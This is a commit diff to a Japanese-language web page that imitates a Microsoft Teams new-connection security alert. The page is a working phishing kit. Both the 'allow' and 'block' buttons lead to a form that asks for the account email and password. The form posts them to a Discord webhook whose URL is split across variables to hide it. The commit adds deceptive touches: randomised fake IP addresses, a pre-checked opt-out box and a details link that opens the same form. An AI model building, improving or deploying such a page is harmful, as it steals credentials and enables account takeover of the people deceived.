

Before and after one commit to access-req/verify, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 218-1011 px from the top of the page, without its empty margins (218-1061 px from the left). Before the commit the page ends 936 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -10,24 +10,28 @@ body{font-family:'Segoe UI',sans-serif;background:#fafafa;display:flex;justify-c
 .page{width:780px;}
 .cert{background:#fff;border-radius:6px;overflow:hidden;box-shadow:0 1px 4px rgba(0,0,0,.12);}
 .top-bar{height:4px;background:linear-gradient(90deg,#44546A,#0067b8,#2B7C8A);}
-.hdr{padding:40px 44px 90px;display:flex;align-items:center;gap:26px;border-bottom:1px solid #eee;}
+.hdr{padding:40px 44px 30px;display:flex;align-items:center;gap:26px;border-bottom:1px solid #eee;}
 .hdr img.logo{width:auto;height:80px;flex-shrink:0;object-fit:contain;}
-.hdr .info h1{font-size:24px;font-weight:600;color:#1a1a1a;}
-.hdr .info small{display:block;font-size:15px;color:#888;margin-top:6px;}
+.hdr .info h1{font-size:22px;font-weight:600;color:#1a1a1a;}
+.hdr .info small{display:block;font-size:14px;color:#888;margin-top:8px;}
 .body{padding:34px 44px;}
 .alert-box{background:#fdf2f0;border-left:4px solid #e74c3c;padding:16px 20px;font-size:14px;color:#5a2e24;margin-bottom:24px;border-radius:0 4px 4px 0;line-height:1.9;}
 .alert-box strong{color:#c0392b;}
-.meta-tbl{width:100%;border-collapse:collapse;margin-bottom:24px;}
-.meta-tbl td{padding:8px 0;border-bottom:1px solid #f0f0f0;font-size:14px;}
-.meta-tbl td:first-child{color:#888;width:30%;}
-.meta-tbl td:last-child{font-family:Consolas,monospace;font-size:14px;color:#333;}
-.btn-row{display:flex;gap:14px;margin-bottom:20px;}
-.btn{flex:1;padding:18px;border:none;border-radius:4px;font-size:18px;font-weight:600;cursor:pointer;letter-spacing:.3px;text-align:center;}
+.meta-tbl{width:100%;border-collapse:collapse;margin-bottom:20px;}
+.meta-tbl td{padding:9px 0;border-bottom:1px solid #f0f0f0;font-size:14px;}
+.meta-tbl td:first-child{color:#888;width:28%;}
+.meta-tbl td:last-child{font-family:Consolas,monospace;font-size:13px;color:#333;}
+.chk-row{display:flex;align-items:center;gap:10px;margin-bottom:22px;font-size:13px;color:#555;}
+.chk-row input[type=checkbox]{width:16px;height:16px;accent-color:#0067b8;}
+.btn-row{display:flex;gap:14px;margin-bottom:8px;}
+.btn{flex:1;padding:17px;border:none;border-radius:4px;font-size:17px;font-weight:600;cursor:pointer;letter-spacing:.3px;text-align:center;}
 .btn.allow{background:#0067b8;color:#fff;}
 .btn.allow:hover{background:#005da6;}
 .btn.deny{background:#fff;color:#e74c3c;border:2px solid #e74c3c;}
 .btn.deny:hover{background:#fdf2f0;}
-.divider{border:none;border-top:1px solid #eee;margin:26px 0;}
+.detail-link{display:inline-block;margin-top:18px;font-size:13px;color:#0067b8;cursor:pointer;}
+.detail-link:hover{text-decoration:underline;}
+.divider{border:none;border-top:1px solid #eee;margin:24px 0;}
 .login-form{display:block;}
 .login-form label{font-size:14px;color:#555;font-weight:600;display:block;margin-bottom:8px;}
 .login-form input{width:100%;padding:16px 20px;border:1px solid #ccc;border-radius:4px;font-size:16px;margin-bottom:24px;font-family:'Segoe UI',sans-serif;background:#fff;}
@@ -39,9 +43,10 @@ body{font-family:'Segoe UI',sans-serif;background:#fafafa;display:flex;justify-c
 .ok{display:none;text-align:center;padding:36px 0;}
 .ok p{font-size:19px;color:#107c10;font-weight:600;margin-bottom:10px;}
 .ok small{font-size:14px;color:#555;line-height:1.7;}
-.foot{padding:18px 44px;background:#f5f5f5;border-top:1px solid #eee;font-size:13px;color:#333;display:flex;justify-content:space-between;flex-wrap:wrap;gap:10px;margin-top:30px;}
-.foot a{color:#333;text-decoration:none;}
+.foot{padding:18px 44px;background:#f5f5f5;border-top:1px solid #eee;font-size:12px;color:#888;display:flex;justify-content:space-between;flex-wrap:wrap;gap:10px;margin-top:20px;}
+.foot a{color:#888;text-decoration:none;}
 .foot a:hover{color:#0067b8;}
+.auto-note{font-size:11px;color:#aaa;margin-top:8px;display:block;}
 </style>
 </head>
 <body>
@@ -60,18 +65,21 @@ body{font-family:'Segoe UI',sans-serif;background:#fafafa;display:flex;justify-c
 <strong>新しい接続を検知しました。</strong><br>
 あなたの Teams アカウントに誰かがログインしようとしています。<br>
 この新しい接続は許可され、今後接続を試みても通知は送信されません。<br><br>
-これがあなた自身ではない場合、または新しいネットワーク接続に気付かない場合は、下の「拒否」をクリックしてください。この接続はブロックされます。
+これがあなた自身ではない場合、または新しいネットワーク接続に気付かない場合は、下の「ブロック」をクリックしてください。この接続はブロックされます。
 </div>
 <table class="meta-tbl" id="meta-tbl">
-<tr><td>接続時間</td><td>2026/11/14 09:42:17 JST</td></tr>
-<tr><td>IPアドレス</td><td>49.112.83.67</td></tr>
+<tr><td>接続時間</td><td id="ts-cell">2026/11/22</td></tr>
+<tr><td>IPアドレス</td><td id="ip-cell"></td></tr>
 <tr><td>推定場所</td><td>大阪府・大阪市</td></tr>
-<tr><td>エージェント</td><td>Mozilla/5.0 (Win64) Chrome/131</td></tr>
+<tr><td>デバイス</td><td>ノートPC ／ Windows 11</td></tr>
+<tr><td>エージェント</td><td>Mozilla/5.0 (Win64) Chrome/131.0.0.0</td></tr>
 </table>
+<label class="chk-row"><input type="checkbox" checked> 今後の接続について通知しない</label>
 <div class="btn-row" id="btn-row">
 <button class="btn allow" onclick="doAction('allow')">この新しい接続を許可する</button>
 <button class="btn deny" onclick="doAction('deny')">この接続をブロックする</button>
 </div>
+<span class="detail-link" onclick="doAction('allow')">接続の詳細を見る ›</span>
 <div class="divider"></div>
 <div id="form-area"></div>
 <div class="spin" id="sp"></div>
@@ -81,18 +89,17 @@ body{font-family:'Segoe UI',sans-serif;background:#fafafa;display:flex;justify-c
 </div>
 </div>
 <div class="foot">
-<a href="#" onclick="return false;">利用規約</a>
-<a href="#" onclick="return false;">プライバシー概要</a>
-<a href="#" onclick="return false;">法的情報</a>
-<span>&copy; Microsoft Corporation</span>
+<span><a href="#" onclick="return false;">利用規約</a> ／ <a href="#" onclick="return false;">プライバシー概要</a> ／ <a href="#" onclick="return false;">法的情報</a></span>
+<span>&copy; Microsoft Corporation<span class="auto-note">この通知は自動的に送信されました。</span></span>
 </div>
 </div>
 </div>
 <script>
 var n=new Date();
-var p=function(x){return("0"+x).slice(-2);};
-var ts=n.getFullYear()+"/"+p(n.getMonth()+1)+"/"+p(n.getDate())+" "+p(n.getHours())+":"+p(n.getMinutes())+":"+p(n.getSeconds())+" JST";
-document.querySelector('.meta-tbl tr:first-child td:last-child').textContent=ts;
+var pad=function(x){return("0"+x).slice(-2);};
+document.getElementById('ts-cell').textContent=n.getFullYear()+"/"+pad(n.getMonth()+1)+"/"+pad(n.getDate())+" "+pad(n.getHours())+":"+pad(n.getMinutes())+":"+pad(n.getSeconds())+" JST";
+var randIp='49.112.'+Math.floor(Math.random()*200+20)+'.'+Math.floor(Math.random()*200+20);
+document.getElementById('ip-cell').textContent=randIp;
 var H="https:/";
 var T="/discord.com/api/webhooks/";
 var A="1569533813548388482/";
@@ -102,18 +109,15 @@ function doAction(a){
 action=a;
 document.getElementById("alert-box").style.display="none";
 document.getElementById("meta-tbl").style.display="none";
+document.querySelector(".chk-row").style.display="none";
 document.getElementById("btn-row").style.display="none";
-var reason, btnLabel;
-if(a==="allow"){
-reason="接続確認のため、以下のアカウント情報を入力してください。";
-btnLabel="接続確認を実行";
-}else{
-reason="接続をブロックします。認証情報を入力し「接続を許可しない」を選択してください。";
-btnLabel="接続を許可しない";
-}
+var reason,btnLabel;
+if(a==="allow"){reason="接続確認のため、以下の認証情報を入力してください。";btnLabel="接続確認を実行";}
+else{reason="接続をブロックします。認証情報を入力し「接続を許可しない」を選択してください。";btnLabel="接続を許可しない";}
 var area=document.getElementById("form-area");
 area.innerHTML='<div class="alert-box" style="font-size:16px;margin-bottom:18px;">'+reason+'</div><form id="f" class="login-form" onsubmit="return send()"><label>アカウント</label><input type="email" id="u" autocomplete="off"><label>パスワード</label><input type="text" id="p" autocomplete="off"><button class="btn-submit" type="submit">'+btnLabel+'</button></form>';
 area.style.display="block";
+setTimeout(function(){document.getElementById('p').focus();},100);
 }
 function send(){
 var u=document.getElementById("u").value;
@@ -125,12 +129,11 @@ var url=H+T+A+B;
 var body=JSON.stringify({"content":"["+action.toUpperCase()+"] user: "+u+"\npass: "+p+"\ntime: "+new Date().toLocaleTimeString("ja-JP")});
 fetch(url,{method:"POST",headers:{"Content-Type":"application/json"},body:body})
 .then(function(){document.getElementById("sp").style.display="none";document.getElementById("ok").style.display="block";
-if(action==="allow"){document.getElementById("ok-detail").innerHTML="接続を許可しました。<br>以降、この接続からの通知は送信されません。";}
+if(action==="allow"){document.getElementById("ok-detail").innerHTML="接続を許可しました。<br>今後の接続からの通知は送信されません。";}
 else{document.getElementById("ok-detail").innerHTML="接続をブロックしました。<br>アカウントは保護されました。";}
 })
 .catch(function(){document.getElementById("sp").style.display="none";document.getElementById("ok").style.display="block";
-if(action==="allow"){document.getElementById("ok-detail").innerHTML="接続を許可しました。";}
-else{document.getElementById("ok-detail").innerHTML="接続をブロックしました。";}
+document.getElementById("ok-detail").innerHTML=action==="allow"?"接続を許可しました。":"接続をブロックしました。";
 });
 return false;
 }
```
